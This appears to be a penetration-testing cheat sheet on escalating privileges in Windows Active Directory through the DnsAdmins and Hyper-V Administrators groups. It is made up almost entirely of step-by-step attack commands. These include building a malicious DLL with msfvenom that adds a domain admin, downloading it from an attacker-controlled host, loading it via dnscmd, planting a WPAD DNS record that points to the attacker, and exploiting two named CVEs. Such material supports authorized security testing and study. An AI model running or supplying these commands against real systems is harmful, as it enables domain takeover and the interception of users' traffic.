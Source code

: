 ### DnsAdmins

#### DLL Injection Attack
```cmd
# Step 1: Generate malicious DLL
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

# Step 2: Download to target
wget "http://<Attacker_IP>/adduser.dll" -outfile "adduser.dll"

# Step 3: Load custom DLL
dnscmd.exe /config /serverlevelplugindll C:\Users\<user>\Desktop\adduser.dll

# Step 4: Restart DNS service
sc stop dns
sc start dns

# Step 5: Verify result
net group "Domain Admins" /dom
```

#### Cleanup
```cmd
# Delete registry key
reg delete \\<DC_IP>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll

# Restart DNS
sc start dns
```

#### WPAD Record Attack
```powershell
# Disable global query block
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.<domain>

# Add WPAD record
Add-DnsServerResourceRecordA -Name wpad -ZoneName <domain> -ComputerName dc01.<domain> -IPv4Address <Attacker_IP>
```

### Hyper-V Administrators

#### CVE-2018-0952 / CVE-2019-0841 Exploitation
```powershell
# Using hyperv-eop.ps1 exploit
# Target: C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

# Step 1: Take ownership
takeown /F "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Step 2: Start service
sc.exe start MozillaMaintenance
```
